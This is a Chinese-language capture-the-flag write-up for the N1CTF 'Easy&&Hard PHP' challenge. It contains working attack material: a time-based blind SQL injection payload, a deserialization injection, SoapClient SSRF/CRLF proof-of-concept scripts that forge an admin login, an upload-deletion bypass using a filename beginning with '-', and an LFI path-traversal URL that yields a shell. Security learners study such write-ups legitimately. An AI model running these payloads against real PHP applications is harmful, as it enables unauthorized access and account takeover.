


# n1ctf

## N1CTF Easy&&Hard PHP
通过扫描可以发现 `index.php~ config.php~ user.php~`

阅读 `index.php~` 发现 `views` 目录，列出了目录下文件，可得到源码，同时该处还存在任意文件包含
```php
if(isset($_GET['action']))
    require_once 'views/'.$_GET['action'];
```

### SQL 注入
在 `config.php` 中，程序对所有输入都进行了过滤
```php
function addsla_all()
{
    if (!get_magic_quotes_gpc())
    {
        if (!empty($_GET))
        {
            $_GET  = addslashes_deep($_GET);
        }
        if (!empty($_POST))
        {
            $_POST = addslashes_deep($_POST);
        }
        $_COOKIE   = addslashes_deep($_COOKIE);
        $_REQUEST  = addslashes_deep($_REQUEST);
    }
}
addsla_all();
```

我们先从注册功能看起，函数调用栈如下:
```php
$C->register()              # views/register
    $db->insert()           # user.php
        $db->getcolumn()    # config.php
```

```php
public function insert($columns,$table,$values){

    $column = $this->get_column($columns);
    $value = '('.preg_replace('/`([^`,]+)`/','\'${1}\'',$this->get_column($values)).')';
    $nid =
    $sql = 'insert into '.$table.'('.$column.') values '.$value;
    $result = $this->conn->query($sql);

    return $result;
}

private function get_column($columns){

    if(is_array($columns))
        $column = ' `'.implode('`,`',$columns).'` ';
    else
        $column = ' `'.$columns.'` ';

    return $column;
}
```

发现 `insert` 函数中将所有 `` `xxx` `` 替换成 `'xxx'`，因此可以进行注入，但是由于 `register` 还进行了 `check_username` 处理，继续审计。

在 `publish` 中找到漏洞利用点。

```php
function publish()
{
    ...
    if(isset($_POST['signature']) && isset($_POST['mood'])) {

        $mood = addslashes(serialize(new Mood((int)$_POST['mood'],get_ip())));
        $db = new Db();
        @$ret = $db->insert(array('userid','username','signature','mood'),'ctf_user_signature',array($this->userid,$this->username,$_POST['signature'],$mood));
        if($ret)
            return true;
        else
            return false;
    }
    ...
}
```
其中 `signature` 参数可控，通过 SQL 注入得到 admin 密码 md5 值，解出为 `nu1ladmin`。
```sql
signature=1`,if((ascii(substr((select password from ctf_users where is_admin=1),1,1))=113),sleep(3),1))#&mood=1
```

然而还是无法登录，再看 `login` 函数
```php
function login() {
    ...
    @$ret = $db->select(array('id','username','ip','is_admin','allow_diff_ip'),'ctf_users',"username = '$username' and password = '$password' limit 1");
    
    if($ret)
    {
    
        $user = $ret->fetch_row();
        if($user) {
            if ($user[4] == '0' && $user[2] !== get_ip())
                die("You can only login at the usual address");
            if ($user[3] == '1')
                $_SESSION['is_admin'] = 1;
            else
                $_SESSION['is_admin'] = 0;
            $_SESSION['userid'] = $user[0];
            $_SESSION['username'] = $user[1];
            $this->username = $user[1];
            $this->userid = $user[0];
            return true;
        }
        else
            return false;
    }
    ...
}
```
发现会验证是否同 ip，而 admin 必须来自 127.0.0.1

```php
function get_ip(){
    return $_SERVER['REMOTE_ADDR'];
}
```
查看 `get_ip` 函数，猜测需要通过 SSRF 绕过该限制。继续审计

### 反序列化
在 `user.php` 中找到反序列化漏洞
```php
function showmess()
{
    ...
    $db = new Db();
    @$ret = $db->select(array('username','signature','mood','id'),'ctf_user_signature',"userid = $this->userid order by id desc");
    if($ret) {
        $data = array();
        while ($row = $ret->fetch_row()) {
            $sig = $row[1];
            $mood = unserialize($row[2]);
            $country = $mood->getcountry();
            $ip = $mood->ip;
            $subtime = $mood->getsubtime();
            $allmess = array('id'=>$row[3],'sig' => $sig, 'mood' => $mood, 'ip' => $ip, 'country' => $country, 'subtime' => $subtime);
            array_push($data, $allmess);
        }
    ...
}
```

可以通过注入
```
a`, {serialize object});#
```
然后访问 index 页面触发反序列化。

### SoapClient 导致的 SSRF

因为需要 SSRF，又有反序列化，所以我们需要一个内置类，同时具备发请求的方法。

在 PHP 文档中有这样的话
> 在调用一个类的不可访问的方法的时候，就会去调用__call方法。

所以我们只需要找到一个类，重载了__call方法，并且可以发请求的就可以了，然后找到了soapClient这个类：

```php
public SoapClient ( mixed $wsdl [, array $options ] )
```

`$wsdl` 控制是否是 wsdl 模式，如果为 NULL，就是非 wsdl 模式，那么反序列化的时候就会对options中的url进行远程soap请求。

`options` 数组中的 `uri` 及 `user_agent` 参数可控，可造成 CRLF 漏洞，导致能生成任意报文。

利用该类，便可以生成一个利用 `admin` 账户登录的 HTTP 包。

有关 SoapClient 为何引起 SSRF 的原理不再赘述，详情建议阅读 wupco 师傅的[文章](https://xz.aliyun.com/t/2148)，通过剖析源码介绍的很细致了。

#### 利用 user_agent 的 CRLF
因为 `user_agent` 在 HTTP 包中的顺序位于 `Content-Type` 之前，因此可以进行修改

来自 wupco 师傅的 PoC：
```php
<?php
$target = 'http://127.0.0.1/index.php?action=login';
$post_string = 'username=admin&password=nu1ladmin&code=cf44f3147ab331af7d66943d888c86f9';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo bin2hex($aaa);
?>
```
其中，PHPSESSID 使用一个未登录时保存的 PHPSESSID，code 使用该 ID 对应的验证码解出来的值。

然后通过 publish 如下数据，并利用该账户访问 index 页面触发反序列化，即可获得 admin 账户


> 一个疑惑：此处在本机利用 PHP (v7.1) 执行 PoC 会多出一个 stream_context 属性，导致执行失败，改用 docker 环境中的 PHP 获取 payload 则没该属性，然后成功拿到 admin 账户

#### 利用 uri 的 CRLF
针对 uri 的 CRLF 注入位于 `Content-Type` 后面，无法修改，因此不能像 `user_agent` 那样注入。

一次 HTTP 连接中可以同时有多个 HTTP 请求头和请求体，但是当前请求被响应的前提是，前一个请求有 `Connection: Keep-Alive`（测试的时候需要注意Content-Length字段，需把 burp 中的 repeater->update content-length选项关掉）

如果我们遇到一个 GET 型的 CRLF 注入，但是我们需要的却是一个 POST 类型的请求，就可以用这种方式，在第一个请求中注入一个 `Connection: Keep-Alive`，然后接着往下注入第二个请求，就可以实现。

wonderkun 师傅的 PoC：
```php
$uri = "http://www.baidu.com/?test=blue\r\nContent-Length: 0\r\n\r\n\r\nPOST /index.php?action=login HTTP/1.1\r\nHost: 127.0.0.1\r\nCookie: PHPSESSID=52m5ugohiki56gds9c6t71rj92\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 45\r\nConnection: Close\r\n\r\nusername=admin&password=nu1ladmin&code=435137\r\n\r\n\r\n";
$location = "http://127.0.0.1/test";  //注意这里一定不要写 index.php?action=login,否则第一个请求会改变验证码的值
$event = new SoapClient(null,array('location'=>$location,'uri'=>$uri));
echo  urlencode(serialize($event));
```

### 上传绕过
获得 admin 账户后，publish 处可以上传文件。

upload 函数的代码如下：
```php
function upload($file) {
    $file_size  = $file['size'];
    if($file_size>2*1024*1024) {
        echo "pic is too big!";
        return false;
    }
    $file_type = $file['type'];
    if($file_type!="image/jpeg" && $file_type!='image/pjpeg') {
        echo "file type invalid";
        return false;
    }
    if(is_uploaded_file($file['tmp_name'])) {
        $uploaded_file = $file['tmp_name'];
        $user_path =  "/app/adminpic";
        if (!file_exists($user_path)) {
            mkdir($user_path);
        }
        $file_true_name = str_replace('.','',pathinfo($file['name'])['filename']);
        $file_true_name = str_replace('/','',$file_true_name);
        $file_true_name = str_replace('\\','',$file_true_name);
        $file_true_name = $file_true_name.time().rand(1,100).'.jpg';
        $move_to_file = $user_path."/".$file_true_name;
        if(move_uploaded_file($uploaded_file,$move_to_file)) {
            if(stripos(file_get_contents($move_to_file),'<?php')>=0)
                system('sh /home/nu1lctf/clean_danger.sh');
            return $file_true_name;
        }
        else
            return false;
    }
    else
        return false;
}
```

我们重点关注这里
```php
if(stripos(file_get_contents($move_to_file),'<?php')>=0)
    system('sh /home/nu1lctf/clean_danger.sh');
return $file_true_name;
```

通过文件包含可得到 `clear_danger.sh` 的内容：
```shell
cd /app/adminpic/
rm *.jpg
```

代码检测文件内容是否包含 `<?php`，如果有就删除所有文件，然后继续执行剩下代码，所以需要想办法绕过删除。

这里可以利用 bash 的特性，`*` 在做符号展开后，直接把文件名传给命令，命令会把 `-` 后的内容当作参数解析，导致无法正常执行。因此可上传一个以 `-` 开头的文件名。


再爆破文件名，通过 LFI 包含即可获取 shell。



```
http://127.0.0.1:8006/index.php?action=../../../../app/adminpic/-shell154518899045.jpg
```

然后在 /run.sh 找到 root 账户密码，数据库中找到 Flag

## Reference
[N1CTF Easy&&Hard Php Writeup](https://xz.aliyun.com/t/2148)
[N1CTF hard PHP Writeup](http://wonderkun.cc/index.html/?p=691)